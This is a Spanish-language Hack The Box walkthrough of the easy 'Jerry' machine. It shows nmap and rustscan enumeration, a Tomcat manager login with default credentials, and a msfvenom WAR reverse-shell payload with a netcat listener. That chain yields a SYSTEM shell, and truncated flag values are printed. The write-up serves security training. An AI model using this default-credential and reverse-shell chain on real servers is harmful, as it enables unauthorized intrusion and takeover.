



Hack The Box: Jerry Writeup
Bienvenidos a mi writeup detallado de la máquina fácil “Jerry” de Hack The Box. En este writeup vamos a resolver la máquina mas fácil de toda la plataforma probablemente. ¡Vamos a ello!
TCP Enumeration
1$ rustscan -a 10.129.136.9 --ulimit 5000 -g
210.129.136.9 -> [8080]UDP Enumeration
No encontramos nada por UDP
1$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.136.9 -oN allPorts.UDP
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-31 18:03 CEST
3Nmap scan report for 10.129.136.9
4Host is up.
5All 1500 scanned ports on 10.129.136.9 are in ignored states.
6Not shown: 1500 open|filtered udp ports (no-response)
7
8Nmap done: 1 IP address (1 host up) scanned in 2.38 secondsDetectamos que por el puerto 8080/TCP hay un servicio web, y es un Tomcat.
1$ nmap -p8080 -sCV 10.129.136.9 -Pn -oN allPorts
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-31 18:02 CEST
3Nmap scan report for 10.129.136.9
4Host is up (0.038s latency).
5
6PORT STATE SERVICE VERSION
78080/tcp open http Apache Tomcat/Coyote JSP engine 1.1
8|_http-server-header: Apache-Coyote/1.1
9|_http-open-proxy: Proxy might be redirecting requests
10|_http-favicon: Apache Tomcat
11|_http-title: Apache Tomcat/7.0.88
12
13Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
14Nmap done: 1 IP address (1 host up) scanned in 12.19 secondsDirigiendonos a una ruta típica en los Tomcats..
http://10.129.136.9:8080/manager intentamos poner admin:admin de credenciales y nos devuelve un código de estado 403, acceso denegado.
Nos devuelve también las típicas credenciales por defecto de tomcat.
1<user username="tomcat" password="s3cret" roles="manager-gui"/>Y probando estas credenciales… 
Ahora simplemente quedaría subir un archivo war malicioso ya que tiene pinta que tenemos privilegios para subirlo.
Con msfvenom creamos el war malicioso.
1$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.71 LPORT=443 -f war > reverse.war
2Payload size: 1091 bytes
3Final size of war file: 1091 bytesLo subimos al tomcat.. 
Nos ponemos en escucha por el puerto 443.
1$ sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...Ahora visitamos la aplicación maliciosa desplegada.. 
Y hemos ganado consola… ¿como nt authority\system?
1$ sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.71] from (UNKNOWN) [10.129.136.9] 49192
4Microsoft Windows [Version 6.3.9600]
5(c) 2013 Microsoft Corporation. All rights reserved.
6
7C:\apache-tomcat-7.0.88>whoami
8whoami
9nt authority\systemVemos un directorio flags..
1C:\Users\Administrator\Desktop>dir
2dir
3 Volume in drive C has no label.
4 Volume Serial Number is 0834-6C04
5
6 Directory of C:\Users\Administrator\Desktop
7
806/19/2018 07:09 AM <DIR> .
906/19/2018 07:09 AM <DIR> ..
1006/19/2018 07:09 AM <DIR> flagsY un archivo llamado 2 for the price of 1.txt
Sin duda esta ha sido la máquina mas fácil que he resuelto en mi vida…
1C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
2type "2 for the price of 1.txt"
3user.txt
47004dbcef0f854...
5
6root.txt
704a8b36e1545a4...#HackTheBox #Jerry #Writeup #Cybersecurity #Penetration Testing #Abusing Tomcat #Information Leakage #Reverse Shell #Privilege Escalation #RCE